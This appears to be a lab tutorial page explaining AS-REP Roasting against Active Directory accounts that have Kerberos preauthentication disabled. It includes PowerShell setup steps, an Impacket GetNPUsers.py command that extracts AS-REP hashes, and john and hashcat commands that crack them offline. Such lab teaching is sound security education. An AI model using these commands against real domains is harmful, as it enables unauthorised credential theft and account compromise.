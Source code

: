 # 7.2 - AS-REP Roasting

### AS-REP Roasting

AS-REP Roasting exploits accounts for which **Kerberos preauthentication is disabled**. In a typical Kerberos authentication process, the client must send a timestamp encrypted with its password-derived key. This serves as proof that the authentication request is not being replayed.

However, if preauthentication is **disabled**, the client does not need to send this encrypted timestamp. As a result, an attacker can request a **Ticket Granting Ticket (TGT)** for the target user and receive an AS-REP message encrypted with the user’s password hash.

#### AS-REP Process

```
1) AS-REQ (Client -> KDC/AS)
   - Timestamp 🔑 Encrypted with Client key (only if preauthentication is enabled)

2) AS-REP (KDC/AS -> Client)
   - TGT 🔑 Encrypted with KDC key
   - TGS Session Key 🔑 Encrypted with Client key
```

In this case we can jump the first step because the preauth is disabled. Once an attacker captures the **AS-REP**, they can attempt to crack the user's password offline.

### Example: Exploiting AS-REP Roasting

**Step 1: Create a User**

```powershell
New-ADUser -Name "asrep" -SamAccountName "asrep" -UserPrincipalName "asrep@dev-angelist.lab" -AccountPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force) -Enabled $true
```

**Step 2: Disable Preauthentication**

```
Win + R -> dsa.msc
User -> Properties -> Account -> Account Options -> Do not require Kerberos preauthentication
```

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Or via PowerShell:

```powershell
Get-ADUser -Identity "asrep" -Properties DoesNotRequirePreAuth | Select-Object Name, DoesNotRequirePreAuth
```

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3: Perform AS-REP Roasting using Impacket**

<pre class="language-bash"><code class="lang-bash"><strong>#On attacker machine create a dedicated python environment (optional)
</strong>python3 -m venv venv
. venv/bin/activate
pip3 install impacket
#Perform AS-REP Roasting attack using the Impacket's module: GetNPUsers.py
GetNPUsers.py dev-angelist.lab/asrep -dc-ip corp-dc -no-pass | grep '\$krb5asrep\$' > as-rep.txt
</code></pre>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

**Step 4: Crack the Ticket**

```bash
john --wordlist=/home/kali/Documents/password.txt ./as-rep.txt
hashcat -m 18200 ./as-rep.txt /home/kali/Documents/password.txt
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

***

## Other Resources

* [Kerberos Authentication Hexdump YT](https://www.youtube.com/watch?v=dQz3CMlVYNY\&list=PLJnLaWkc9xRi71Pso26JlvyBkLUOETLjn)
* [Roasting attacks Hexdump YT](https://www.youtube.com/watch?v=fVTZEIZIEqg)
